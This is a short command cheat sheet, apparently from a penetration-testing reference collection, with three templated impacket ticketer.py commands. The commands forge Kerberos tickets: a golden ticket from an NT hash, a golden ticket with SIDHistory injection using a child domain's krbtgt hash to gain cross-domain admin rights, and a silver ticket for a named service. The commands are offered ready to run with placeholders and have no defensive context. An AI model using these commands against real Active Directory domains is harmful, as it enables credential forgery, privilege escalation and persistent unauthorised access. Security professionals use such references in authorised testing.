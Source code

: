 # ticketer (imp)

% impacket-kerberos, windows, kerberos, 88

## Ticketer - (golden ticket) - 
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
```
ticketer.py -nthash <nthash> -domain-sid <domain_sid> -domain <domain> <user>
```

## Ticketer - (golden ticket) - SIDHistory injection
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
```
ticketer.py -nthash <krbtgt_hash> -domain-sid <child_somain_sid> -extra-sid <ets_admin_sid> -domain <child_domain> <user>
```

## Ticketer - (silver ticket) - generate TGS tickets into ccache format which can be converted further into kirbi.
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
```
ticketer.py -nthash <nthash> -domain-sid <domain_sid> -domain <domain> -spn <SPN> <user>
```
